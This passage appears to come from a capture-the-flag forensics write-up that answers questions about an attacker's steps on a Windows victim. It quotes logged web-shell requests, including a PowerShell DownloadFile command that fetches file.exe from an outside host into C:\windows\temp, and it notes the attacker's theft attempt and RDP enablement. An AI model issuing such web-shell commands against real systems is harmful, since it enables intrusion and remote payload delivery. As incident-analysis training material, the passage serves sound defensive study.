 

#### - Answer: - `C:\Users\Victim\Pictures`

#### Q22: What Did he try to steal? (filename)
```
*********.****
```
- What Did he Download?
![image](https://github.com/user-attachments/assets/4779af86-0cbd-4b6d-b4ae-895c83ca3a12)
- It failed because of an error in filename he wrote in the download feild `dir C:\Users\Victim\Desktop\Employees.xlsx`

##### - Answer: `Employees.xlsx`

<br>

#### Q23: The fun is not over yet. he decided to download another file to the victim machine. what is the name of that file at the server?
```
****.***
```
- `GET /custom/login/wbsh.jsp?cmd=(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')&action=exec HTTP/1.1 `
- Downloaded `file.exe` and wrote it to `C:\windows\temp\ekern.exe`
![image](https://github.com/user-attachments/assets/8a8eb7b7-fbea-4a00-bb9d-99e878e8ff41)

##### - Answer: `file.exe`

<br>

#### Q24: Then he checked for a service status. What was it?
```
***********
```
- `GET /custom/login/wbsh.jsp?cmd=Get-Service -Name TermService&action=exec HTTP/1.1`

##### - Answer: `TermService` 

<br>

#### Q25: After That he was hungry for more evil. He needed to ensure that they can remotely access the system. How can he access the system Remotely, what protocol does he need?
```
***
```
##### - Answer: `RDP`

<br>


#### Q26: What Registery Value Did he change to allow RDP? (path included)
```
****\******\*****************\*******\******** ******\******************
```
